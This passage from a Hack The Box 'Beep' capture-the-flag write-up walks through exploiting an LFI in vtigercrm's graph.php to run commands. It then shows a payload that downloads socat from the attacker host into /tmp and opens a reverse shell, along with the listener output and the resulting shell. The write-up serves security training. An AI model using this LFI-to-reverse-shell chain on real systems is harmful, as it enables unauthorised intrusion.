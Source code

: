 **Nice! Then we should be able to execute system commands via LFI:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Beep)-[2023.08.03|17:53:04(HKT)]
└> curl -k 'https://beep.htb/vtigercrm/graph.php?current_language=../../../../../../../..//var/mail/asterisk%00&module=Accounts&action&cmd=id'
[...]
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)

Sorry! Attempt to access restricted file.
```

Nice! Let's get a reverse shell!

- Setup a `socat` TTY listener: (For fully upgraded reverse shell)

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Beep)-[2023.08.03|17:57:36(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/08/03 17:57:43 socat[207835] N opening character device "/dev/pts/3" for reading and writing
2023/08/03 17:57:43 socat[207835] N listening on AF=2 0.0.0.0:443

```

- Host the `socat` binary via Python's `http.server` module:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Beep)-[2023.08.03|17:59:11(HKT)]
└> file /opt/static-binaries/binaries/linux/x86/socat-2.0.0-b8/socat                           
/opt/static-binaries/binaries/linux/x86/socat-2.0.0-b8/socat: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, with debug_info, not stripped
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Beep)-[2023.08.03|17:59:27(HKT)]
└> python3 -m http.server -d /opt/static-binaries/binaries/linux/x86/socat-2.0.0-b8/ 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Send the reverse shell payload: (Generated from [revshells.com](https://www.revshells.com/) and URL encoded from [CyberChef](https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)&input=Y3VybCBodHRwOi8vMTAuMTAuMTQuOC9zb2NhdCAtbyAvdG1wL3NvY2F0OyBjaG1vZCAreCAvdG1wL3NvY2F0OyAvdG1wL3NvY2F0IFRDUDoxMC4xMC4xNC44OjQ0MyBFWEVDOicvYmluL2Jhc2gnLHB0eSxzdGRlcnIsc2V0c2lkLHNpZ2ludCxzYW5l))

**Payload:**
```sh
curl http://10.10.14.8/socat -o /tmp/socat; chmod +x /tmp/socat; /tmp/socat TCP:10.10.14.8:443 EXEC:'/bin/bash',pty,stderr,setsid,sigint,sane
```

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Beep)-[2023.08.03|17:54:35(HKT)]
└> curl -k 'https://beep.htb/vtigercrm/graph.php?current_language=../../../../../../../..//var/mail/asterisk%00&module=Accounts&action&cmd=curl%20http%3A%2F%2F10%2E10%2E14%2E8%2Fsocat%20%2Do%20%2Ftmp%2Fsocat%3B%20chmod%20%2Bx%20%2Ftmp%2Fsocat%3B%20%2Ftmp%2Fsocat%20TCP%3A10%2E10%2E14%2E8%3A443%20EXEC%3A%27%2Fbin%2Fbash%27%2Cpty%2Cstderr%2Csetsid%2Csigint%2Csane'
```

- Profit:

```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Beep)-[2023.08.03|17:57:36(HKT)]
└> socat -d -d file:`tty`,raw,echo=0 TCP-LISTEN:443
2023/08/03 17:57:43 socat[207835] N opening character device "/dev/pts/3" for reading and writing
2023/08/03 17:57:43 socat[207835] N listening on AF=2 0.0.0.0:443
                                                                 2023/08/03 18:00:24 socat[207835] N accepting connection from AF=2 10.10.10.7:50010 on AF=2 10.10.14.8:443
                                                                2023/08/03 18:00:24 socat[207835] N starting data transfer loop with FDs [5,5] and [7,7]
                                             bash-3.2$ 
bash-3.2$ export TERM=xterm-256color
bash-3.2$ stty rows 22 columns 107
bash-3.2$ whoami; hostname; id; ip a
asterisk
```